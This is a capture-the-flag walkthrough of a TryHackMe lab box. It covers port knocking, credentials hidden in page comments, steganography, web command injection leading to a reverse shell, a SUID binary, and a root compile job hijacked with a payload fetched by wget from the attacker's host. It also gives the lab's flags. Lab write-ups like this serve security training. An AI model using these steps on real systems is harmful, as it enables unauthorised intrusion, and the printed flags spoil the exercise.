

# The Blob Blog



## Port Scan

```bash
└─$ rustscan -a theblobblog.thm --ulimit 5000 -- -A -oN nmap.log
...
Open xx.xx.xxx.xx:22
Open xx.xx.xxx.xx:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p port -ipversion ip -A -oN nmap.log" on ip xx.xx.xxx.xx
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-15 15:01 +0800
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:01
Completed NSE at 15:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:01
Completed NSE at 15:01, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:01
Completed NSE at 15:01, 0.00s elapsed
Initiating Ping Scan at 15:01
Scanning xx.xx.xxx.xx [4 ports]
Completed Ping Scan at 15:01, 0.13s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:01
Scanning theblobblog.thm (xx.xx.xxx.xx) [2 ports]
Discovered open port 22/tcp on xx.xx.xxx.xx
Discovered open port 80/tcp on xx.xx.xxx.xx
Completed SYN Stealth Scan at 15:01, 0.12s elapsed (2 total ports)
Initiating Service scan at 15:01
Scanning 2 services on theblobblog.thm (xx.xx.xxx.xx)
Completed Service scan at 15:01, 6.44s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against theblobblog.thm (xx.xx.xxx.xx)
Retrying OS detection (try #2) against theblobblog.thm (xx.xx.xxx.xx)
Initiating Traceroute at 15:01
Completed Traceroute at 15:01, 3.02s elapsed
Initiating Parallel DNS resolution of 1 host. at 15:01
Completed Parallel DNS resolution of 1 host. at 15:01, 0.50s elapsed
DNS resolution of 1 IPs took 0.50s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
NSE: Script scanning xx.xx.xxx.xx.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:01
Completed NSE at 15:01, 5.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:01
Completed NSE at 15:01, 0.44s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:01
Completed NSE at 15:01, 0.00s elapsed
Nmap scan report for theblobblog.thm (xx.xx.xxx.xx)
Host is up, received reset ttl 62 (0.10s latency).
Scanned at 2026-06-15 15:01:36 HKT for 20s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e7:28:a6:33:66:4e:99:9e:8e:ad:2f:1b:49:ec:3e:e8 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALXivx0EdFUjWn8Hg9zVrEE0+FIVsz0Dgt27TYzwHsc2NBir/vuOaG2wuM28Yu1yY5yX8QyIT7QvvtGwpZMS9wGy0x+mjSzMVgkkUpMDp2Yholkm9NH/CDhaA8zg3HxGd8/EdnHMLWszgF58xPCjUAtL3tZK09B4w/pdM0FFAF5BAAAAFQDzhIOaKK76v9eKeZNe0ZgkHVdyWQAAAIEAirSNjm02GVhgTbV6I60sZmY9nWORouyVp+Y+K0MQF+Jvxr0QQEWFeIVNbYNW0eg06VJ0JLexGNttrT/N6LPU4KBR7zIGOshLhXV847rwkUjODCt0ZeLjUv0X8o6T4ExZi92VLBylxQmk2OMgUIyeVPVbAsDAK2N0LFWHfpLTbl0AAACARqXryFKMWJQTJ1Ta5dX4bCZ20ulsATRbFuMLH1OZoA7gM2A2rijxPvK6Vp/VJt7701LhgI0dUZClMLC8q0OXaTEO3Ao6zdJb8W5snDue2TrPm12UnELgUD/NwWVqyjgYq1UgZ+71l+3fy6Q8opDILH+RYmAypIXb29dXvICjC5U=
|   2048 86:fc:ed:ce:46:63:4d:fd:ca:74:b6:50:46:ac:33:0f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgOLGhQs3olTn9V7fF/VB8GkElTVbM33EOlppILeLZmIdeg0NkxZdScAjalP4AB/yiU/01Whysy6NhOeuyVfwRhCkvpoWkN1X20YI6fPdTE5TLOeR+m78IXXZlyBSj2GOqvM7tPr0BqvfpsoxkS4zXVYG4OhxZDR4/rmXA9GaSOTzGEOWj839sbW6cdos5nanQSdEhDM441+GeUfXfPh+nqasy422AEhDqFh6cDRcQw5MXR2pt+VicabIfcVjRNRCmNgpx3nbJ/u1TeNC8C40krEiH735AbPd/Bu/Hbg2hY0AR7I/2dwsZMMcQ6weRLY0bOdW8wWPTIgdWN65DVAlf
|   256 e0:cc:05:0a:1b:8f:5e:a8:83:7d:c3:d2:b3:cf:91:ca (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOdOqWQM/+hxmRNa9Np94ZyfIfPGqNPOMKRMQkwCUXxrEfrC6RxnuNQolldjaSZtTx4nd/qWQqcNvrFbifP942o=
|   256 80:e3:45:b2:55:e2:11:31:ef:b1:fe:39:a8:90:65:c5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJCjSR4Gytw2HNoqL4fDTKnxm0d8U/16kopRnicLqWMM
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
```

The initial scan shows only two services:

- **22/tcp**: SSH (OpenSSH 6.6.1p1)
- **80/tcp**: HTTP (Apache httpd 2.4.7)

## HTTP (port 80) enumeration

The site on port 80 is simply the default Apache2 page.


Directory fuzzing does not uncover anything interesting.

```bash
└─$ ffuf -u http://theblobblog.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://theblobblog.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 13312, Words: 3549, Lines: 389, Duration: 105ms]
.htpasswd               [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 107ms]
.htaccess               [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 107ms]
.hta                    [Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 110ms]
index.html              [Status: 200, Size: 13312, Words: 3549, Lines: 389, Duration: 99ms]
server-status           [Status: 403, Size: 295, Words: 21, Lines: 11, Duration: 99ms]
:: Progress: [4614/4614] :: Job [1/1] :: 389 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

## Apache version

From the scan, Apache is `2.4.7`. I checked for public exploits, but none were able to take me further.

```bash
└─$ searchsploit Apache 2.4.7
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache 2.4.7 + PHP 7.0.2 - 'openssl_seal()' Uninitialized Memory Code Execution                                                                                                                           | php/remote/40142.php
Apache 2.4.7 mod_status - Scoreboard Handling Race Condition                                                                                                                                              | linux/dos/34133.txt
```

## Source code comments

After getting nowhere with enumeration, I inspected the HTML source and noticed hidden comments.

At the bottom of the page, a Base58 encoded string appears

```bash
<!--
Dang it Bob, why do you always forget your password?
I'll encode for you here so nobody else can figure out what it is: 
HcfP8J54AK4
-->
```

Decoding it gives the password `cUpC4k3s`.


Scrolling back up, there is another comment at the very top containing a long base64 string:

```bash
K1stLS0+Kys8XT4rLisrK1stPisrKys8XT4uLS0tLisrKysrKysrKy4tWy0+KysrKys8XT4tLisrKytbLT4rKzxdPisuLVstPisrKys8XT4uLS1bLT4rKysrPF0+LS4tWy0+KysrPF0+LS4tLVstLS0+KzxdPi0tLitbLS0tLT4rPF0+KysrLlstPisrKzxdPisuLVstPisrKzxdPi4tWy0tLT4rKzxdPisuLS0uLS0tLS0uWy0+KysrPF0+Li0tLS0tLS0tLS0tLS4rWy0tLS0tPis8XT4uLS1bLS0tPis8XT4uLVstLS0tPis8XT4rKy4rK1stPisrKzxdPi4rKysrKysrKysrKysuLS0tLS0tLS0tLi0tLS0uKysrKysrKysrLi0tLS0tLS0tLS0uLS1bLS0tPis8XT4tLS0uK1stLS0tPis8XT4rKysuWy0+KysrPF0+Ky4rKysrKysrKysrKysrLi0tLS0tLS0tLS0uLVstLS0+KzxdPi0uKysrK1stPisrPF0+Ky4tWy0+KysrKzxdPi4tLVstPisrKys8XT4tLi0tLS0tLS0tLisrKysrKy4tLS0tLS0tLS0uLS0tLS0tLS0uLVstLS0+KzxdPi0uWy0+KysrPF0+Ky4rKysrKysrKysrKy4rKysrKysrKysrKy4tWy0+KysrPF0+LS4rWy0tLT4rPF0+KysrLi0tLS0tLS4rWy0tLS0+KzxdPisrKy4tWy0tLT4rKzxdPisuKysrLisuLS0tLS0tLS0tLS0tLisrKysrKysrLi1bKys+LS0tPF0+Ky4rKysrK1stPisrKzxdPi4tLi1bLT4rKysrKzxdPi0uKytbLS0+KysrPF0+LlstLS0+Kys8XT4tLS4rKysrK1stPisrKzxdPi4tLS0tLS0tLS0uWy0tLT4rPF0+LS0uKysrKytbLT4rKys8XT4uKysrKysrLi0tLS5bLS0+KysrKys8XT4rKysuK1stLS0tLT4rPF0+Ky4tLS0tLS0tLS0uKysrKy4tLS4rLi0tLS0tLS4rKysrKysrKysrKysrLisrKy4rLitbLS0tLT4rPF0+KysrLitbLT4rKys8XT4rLisrKysrKysrKysrLi4rKysuKy4rWysrPi0tLTxdPi4rK1stLS0+Kys8XT4uLlstPisrPF0+Ky5bLS0tPis8XT4rLisrKysrKysrKysrLi1bLT4rKys8XT4tLitbLS0tPis8XT4rKysuLS0tLS0tLitbLS0tLT4rPF0+KysrLi1bLS0tPisrPF0+LS0uKysrKysrKy4rKysrKysuLS0uKysrK1stPisrKzxdPi5bLS0tPis8XT4tLS0tLitbLS0tLT4rPF0+KysrLlstLT4rKys8XT4rLi0tLS0tLi0tLS0tLS0tLS0tLS4tLS1bLT4rKysrPF0+Li0tLS0tLS0tLS0tLS4tLS0uKysrKysrKysrLi1bLT4rKysrKzxdPi0uKytbLS0+KysrPF0+Li0tLS0tLS0uLS0tLS0tLS0tLS0tLi0tLVstPisrKys8XT4uLS0tLS0tLS0tLS0tLi0tLS4rKysrKysrKysuLVstPisrKysrPF0+LS4tLS0tLVstPisrPF0+LS4tLVstLS0+Kys8XT4tLg==
```

After decoding, it becomes Brainfuck, which best describes this room:

```bash
+[--->++<]>+.+++[->++++<]>.---.+++++++++.-[->+++++<]>-.++++[->++<]>+.-[->++++<]>.--[->++++<]>-.-[->+++<]>-.--[--->+<]>--.+[---->+<]>+++.[->+++<]>+.-[->+++<]>.-[--->++<]>+.--.-----.[->+++<]>.------------.+[----->+<]>.--[--->+<]>.-[---->+<]>++.++[->+++<]>.++++++++++++.---------.----.+++++++++.----------.--[--->+<]>---.+[---->+<]>+++.[->+++<]>+.+++++++++++++.----------.-[--->+<]>-.++++[->++<]>+.-[->++++<]>.--[->++++<]>-.--------.++++++.---------.--------.-[--->+<]>-.[->+++<]>+.+++++++++++.+++++++++++.-[->+++<]>-.+[--->+<]>+++.------.+[---->+<]>+++.-[--->++<]>+.+++.+.------------.++++++++.-[++>---<]>+.+++++[->+++<]>.-.-[->+++++<]>-.++[-->+++<]>.[--->++<]>--.+++++[->+++<]>.---------.[--->+<]>--.+++++[->+++<]>.++++++.---.[-->+++++<]>+++.+[----->+<]>+.---------.++++.--.+.------.+++++++++++++.+++.+.+[---->+<]>+++.+[->+++<]>+.+++++++++++..+++.+.+[++>---<]>.++[--->++<]>..[->++<]>+.[--->+<]>+.+++++++++++.-[->+++<]>-.+[--->+<]>+++.------.+[---->+<]>+++.-[--->++<]>--.+++++++.++++++.--.++++[->+++<]>.[--->+<]>----.+[---->+<]>+++.[-->+++<]>+.-----.------------.---[->++++<]>.------------.---.+++++++++.-[->+++++<]>-.++[-->+++<]>.-------.------------.---[->++++<]>.------------.---.+++++++++.-[->+++++<]>-.-----[->++<]>-.--[--->++<]>-.
```

Decoding the Brainfuck reveals a message:

```
When I was a kid, my friends and I would always knock on 3 of our neighbors doors.  Always houses 1, then 3, then 5!
```

It is most likely referring to port knocking**, so** I ran:

```bash
└─$ knock theblobblog.thm 1 3 5
```

Re-scanning afterward revealed additional ports:

```bash
└─$ rustscan -a theblobblog.thm --ulimit 5000 -- -A -oN nmap2.log                                                                                                                                                                           
...
Open xx.xx.xxx.xx:21
Open xx.xx.xxx.xx:22
Open xx.xx.xxx.xx:80
Open xx.xx.xxx.xx:445
Open xx.xx.xxx.xx:8080
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 62 vsftpd 3.0.2
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e7:28:a6:33:66:4e:99:9e:8e:ad:2f:1b:49:ec:3e:e8 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALXivx0EdFUjWn8Hg9zVrEE0+FIVsz0Dgt27TYzwHsc2NBir/vuOaG2wuM28Yu1yY5yX8QyIT7QvvtGwpZMS9wGy0x+mjSzMVgkkUpMDp2Yholkm9NH/CDhaA8zg3HxGd8/EdnHMLWszgF58xPCjUAtL3tZK09B4w/pdM0FFAF5BAAAAFQDzhIOaKK76v9eKeZNe0ZgkHVdyWQAAAIEAirSNjm02GVhgTbV6I60sZmY9nWORouyVp+Y+K0MQF+Jvxr0QQEWFeIVNbYNW0eg06VJ0JLexGNttrT/N6LPU4KBR7zIGOshLhXV847rwkUjODCt0ZeLjUv0X8o6T4ExZi92VLBylxQmk2OMgUIyeVPVbAsDAK2N0LFWHfpLTbl0AAACARqXryFKMWJQTJ1Ta5dX4bCZ20ulsATRbFuMLH1OZoA7gM2A2rijxPvK6Vp/VJt7701LhgI0dUZClMLC8q0OXaTEO3Ao6zdJb8W5snDue2TrPm12UnELgUD/NwWVqyjgYq1UgZ+71l+3fy6Q8opDILH+RYmAypIXb29dXvICjC5U=
|   2048 86:fc:ed:ce:46:63:4d:fd:ca:74:b6:50:46:ac:33:0f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgOLGhQs3olTn9V7fF/VB8GkElTVbM33EOlppILeLZmIdeg0NkxZdScAjalP4AB/yiU/01Whysy6NhOeuyVfwRhCkvpoWkN1X20YI6fPdTE5TLOeR+m78IXXZlyBSj2GOqvM7tPr0BqvfpsoxkS4zXVYG4OhxZDR4/rmXA9GaSOTzGEOWj839sbW6cdos5nanQSdEhDM441+GeUfXfPh+nqasy422AEhDqFh6cDRcQw5MXR2pt+VicabIfcVjRNRCmNgpx3nbJ/u1TeNC8C40krEiH735AbPd/Bu/Hbg2hY0AR7I/2dwsZMMcQ6weRLY0bOdW8wWPTIgdWN65DVAlf
|   256 e0:cc:05:0a:1b:8f:5e:a8:83:7d:c3:d2:b3:cf:91:ca (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOdOqWQM/+hxmRNa9Np94ZyfIfPGqNPOMKRMQkwCUXxrEfrC6RxnuNQolldjaSZtTx4nd/qWQqcNvrFbifP942o=
|   256 80:e3:45:b2:55:e2:11:31:ef:b1:fe:39:a8:90:65:c5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJCjSR4Gytw2HNoqL4fDTKnxm0d8U/16kopRnicLqWMM
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp  open  http    syn-ack ttl 62 Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    syn-ack ttl 62 Werkzeug httpd 1.0.1 (Python 3.5.3)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 3.X|4.X|5.X|6.X (87%), Crestron 2-Series (87%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (87%), Crestron XPanel control system (87%), Linux 3.13 (86%), Linux 4.4 (86%), Linux 4.10 (86%), Linux 4.15 - 5.19 (85%), Linux 5.14 - 6.8 (85%), Linux 3.10 - 3.13 (85%), Linux 5.4 (85%)
No exact OS matches for host (test conditions non-ideal).
```

At this point, ports **21 (FTP)**, **445 (HTTP)**, and **8080 (HTTP)** are open.

## HTTP (port 445)


On port 445, there’s another comment that reveals the stego password `p@55w0rd`:

```html
<!--
Bob, I swear to goodness, if you can't remember p@55w0rd 
It's not that hard
-->
```

## FTP

Using the earlier credentials `bob:cUpC4k3s`, I was able to log into FTP and pull down files, including a JPEG that looked suspicious.

```bash
└─$ ftp bob@theblobblog.thm                                                                                                                                                                                                                 
Connected to theblobblog.thm.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||34432|).
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001         8980 Jul 25  2020 examples.desktop
dr-xr-xr-x    3 65534    65534        4096 Jul 25  2020 ftp
226 Directory send OK.
ftp> get examples.desktop
local: examples.desktop remote: examples.desktop
229 Entering Extended Passive Mode (|||13661|).
150 Opening BINARY mode data connection for examples.desktop (8980 bytes).
100% |***********************************************************************************************************************************************************************************************|  8980       25.95 MiB/s    00:00 ETA
226 Transfer complete.
8980 bytes received in 00:00 (88.93 KiB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||29133|).
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Jul 28  2020 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||55758|).
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001         8183 Jul 28  2020 cool.jpeg
226 Directory send OK.
ftp> get cool.jpeg
local: cool.jpeg remote: cool.jpeg
229 Entering Extended Passive Mode (|||65458|).
150 Opening BINARY mode data connection for cool.jpeg (8183 bytes).
100% |***********************************************************************************************************************************************************************************************|  8183       24.93 MiB/s    00:00 ETA
226 Transfer complete.
8183 bytes received in 00:00 (79.96 KiB/s)
```

With `p@55w0rd`, I extracted the embedded data from `cool.jpeg` 

```bash
└─$ steghide extract -sf cool.jpeg -p p@55w0rd
wrote extracted data to "out.txt".

└─$ cat out.txt                                                                                                                                                                                                                             
zcv:p1fd3v3amT@55n0pr
/bobs_safe_for_stuff
```

Visiting `/bobs_safe_for_stuff` on port 445 reveals the key `youmayenter`.


That key is then used to decode `zcv:p1fd3v3amT@55n0pr`, giving `bob:d1ff3r3ntP@55w0rd`


Now I can log into the blog. Next step: find where the blog app is actually hosted.

## Blog (Port 8080)

Fuzzing port 8080 reveals a few endpoints, including `blog`, `login`, and `review`.

```bash
─$ ffuf -u http://theblobblog.thm:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://theblobblog.thm:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 11509, Words: 3526, Lines: 378, Duration: 123ms]
blog                    [Status: 200, Size: 553, Words: 50, Lines: 18, Duration: 106ms]
login                   [Status: 200, Size: 546, Words: 24, Lines: 18, Duration: 105ms]
review                  [Status: 200, Size: 77, Words: 9, Lines: 1, Duration: 219ms]
:: Progress: [4614/4614] :: Job [1/1] :: 191 req/sec :: Duration: [0:00:24] :: Errors: 0 ::

```

Log in  `/login` on port 8080 with the credentials.


After logging in, the app shows a textbox along with a list of posts, but the posts themselves aren’t relevant.


Inputting `ls` into the textbox and then visiting `/review` shows that the input is being executed as a shell command.


## Reverse shell

With command execution confirmed, I set up a reverse shell back to my listener:

```
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from (UNKNOWN) [xx.xx.xxx.xx] 60944
```

On the host, there are two home directories; only `bob` is accessible from the web context:

```
www-data@bobloblaw-VirtualBox:/home$ ls
ls
bob  bobloblaw
www-data@bobloblaw-VirtualBox:/home$ cd bobloblaw
cd bobloblaw
bash: cd: boblobaw: Permission denied
```

## Lateral Movement

Next, I enumerated SUID binaries and noticed a custom binary named `blogFeedback`:

```
www-data@bobloblaw-VirtualBox:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/ubuntu-app-launch/oom-adjust-setuid-helper
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/arping
/usr/bin/blogFeedback
/usr/bin/passwd
/bin/ntfs-3g
/bin/su
/bin/fusermount
/bin/mount
/bin/ping
/bin/umount
/opt/VBoxGuestAdditions-6.1.12/bin/VBoxDRMClient
www-data@bobloblaw-VirtualBox:~$ 
```

The binary is owned by `bobloblaw` and has the SUID bit set:

```
ls -la blogFeedback
ls -la blogFeedback
-rwsrwxr-x 1 bobloblaw bobloblaw 16768 Jul 25  2020 blogFeedback
```

I copied it to my machine and opened it in Ghidra. After renaming, the logic is simple:

```c

undefined8 main(int parameters,long param_2)

{
  int int;
  int i;
  
  if ((parameters < 7) || (7 < parameters)) {
    puts("Order my blogs!");
  }
  else {
    for (i = 1; i < 7; i = i + 1) {
      int = atoi(*(char **)(param_2 + (long)i * 8));
      if (int != 7 - i) {
        puts("Hmm... I disagree!");
        return 0;
      }
    }
    puts("Now that, I can get behind!");
    setreuid(1000,1000);
    system("/bin/sh");
  }
  return 0;
}
```

So the program expects the arguments `6 5 4 3 2 1`. We can try it locally first.

```bash
└─$ ./blogFeedback 6 5 4 3 2 1
Now that, I can get behind!
$ 
```

Executing it on the box switches me into `bobloblaw` (I got humiliated by “You haven't rooted me yet? Jeez”:( )

```bash
www-data@bobloblaw-VirtualBox:/usr/bin$ You haven't rooted me yet? Jeez
You haven't rooted me yet? Jeez
You haven't rooted me yet? Jeez
You haven't rooted me yet? Jeez
You haven't rooted me yet? Jeez
blogFeedback 6 5 4 3 2 1
blogFeedback 6 5 4 3 2 1
Now that, I can get behind!
$ You haven't rooted me yet? Jeez
whoami
whoami
bobloblaw
```

With that, I could finally grab the user flag:

```bash
$ find . -type f -name user.txt 2You haven't rooted me yet? Jeez
>/dev/null
find . -type f -name user.txt 2>/dev/null
./Desktop/user.txt
$ cd Desktop    
cd Desktop
$ cat user.txt
cat user.txt
THM{C0NGR4t$_g3++ing_this_fur}

@jakeyee thank you so so so much for the help with the foothold on the box!!
```

User Flag: `THM{C0NGR4t$_g3++ing_this_fur}`

## Privilege escalation

First, I checked `sudo` permissions:

```bash
$ sudo -l
sudo -l
Matching Defaults entries for bobloblaw on bobloblaw-VirtualBox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bobloblaw may run the following commands on bobloblaw-VirtualBox:
    (root) NOPASSWD: /bin/echo, /usr/bin/yes

```

Unfortunately these don’t directly help for escalation.

I also noticed a root cron job creating a backup:

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

*  *    * * *   root    cd /home/bobloblaw/Desktop/.uh_oh && tar -zcf /tmp/backup.tar.gz *

```

However, the `.uh_oh` directory is owned by root, so I can’t modify the files:

```bash
$ ls -la
ls -la
total 40
drwxrwx---  3 bobloblaw bobloblaw  4096 Jul 28  2020 .
drwxrwx--- 17 bobloblaw bobloblaw  4096 Jun 15 04:50 ..
-rw--w----  1 bobloblaw bobloblaw 11054 Jul 24  2020 dontlookatthis.jpg
-rw--w----  1 bobloblaw bobloblaw 10646 Jul 24  2020 lookatme.jpg
drwxrwx---  2 root      root       4096 Jul 28  2020 .uh_oh
-rw--w----  1 bobloblaw bobloblaw   109 Jul 27  2020 user.txt

```

### pspy64

Using `pspy64`, I observed an interesting root process:

```bash
$ chmod +x pspy64
$ ./pspy64
...
2026/06/15 05:01:01 CMD: UID=0     PID=12639  | /bin/sh -c gcc /home/bobloblaw/Documents/.boring_file.c -o /home/bobloblaw/Documents/.also_boring/.still_boring && chmod +x /home/bobloblaw/Documents/.also_boring/.still_boring && /home/bobloblaw/Documents/.also_boring/.still_boring | tee /dev/pts/0 /dev/pts/1 /dev/pts/2 && rm /home/bobloblaw/Documents/.also_boring/.still_boring  
```

It compiles `/home/bobloblaw/Documents/.boring_file.c`, executes the result, then deletes the binary afterwards.

After checking permissions, I found the C source file was writable. I removed it and replaced it with a reverse shell payload:

```bash
$ rm .boring_file.c
rm .boring_file.c
$ wget http://xxx.xxx.xxx.xxx:8000/.boring_file.c
wget http://xxx.xxx.xxx.xxx:8000/.boring_file.c
--2026-06-15 05:07:01--  http://xxx.xxx.xxx.xxx:8000/.boring_file.c
Connecting to xxx.xxx.xxx.xxx:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 670 [text/x-csrc]
Saving to: ‘.boring_file.c’

.boring_file.c      100%[===================>]     670  --.-KB/s    in 0.001s  

2026-06-15 05:07:01 (826 KB/s) - ‘.boring_file.c’ saved [670/670]
```

With that, I obtained a root shell:

```bash
└─$ nc -lvnp 1236
listening on [any] 1236 ...
connect to [xxx.xxx.xxx.xxx] from (UNKNOWN) [xx.xx.xxx.xx] 56510
whoami
root
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
root@bobloblaw-VirtualBox:~# cd ~
cd ~
root@bobloblaw-VirtualBox:~# ls 
ls 
root.txt
root@bobloblaw-VirtualBox:~# cat root.txt
cat root.txt
THM{G00D_J0B_G3++1NG+H3R3!}
```

Root Flag: `THM{G00D_J0B_G3++1NG+H3R3!}`
